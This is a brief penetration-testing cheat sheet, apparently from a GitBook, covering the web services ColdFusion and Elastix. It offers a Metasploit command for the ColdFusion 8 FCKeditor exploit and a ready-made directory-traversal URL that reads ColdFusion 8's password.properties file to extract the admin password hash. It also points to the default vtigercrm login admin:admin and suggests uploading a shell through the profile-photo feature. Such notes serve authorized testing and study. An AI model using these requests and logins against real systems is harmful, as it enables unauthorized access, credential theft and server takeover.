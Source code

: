# Common Web Services

## ColdFusion

GOLD!! [http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

### Determine Version

{% embed url="https://example.com/CFIDE/adminapi/base.cfc?wsdl" %}

### Version 8

#### FCKEDITOR

This works for version 8.0.1, so make sure to check the exact version

```text
msf > use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the has of the password

```text
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../ColdFusion8/lib/password.properties%00en
```

Some other good resources

{% embed url="http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers" %}

{% embed url="http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/" %}

## Elastix

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/) default login is `admin:admin`

You might be able to upload shell in profile-photo.

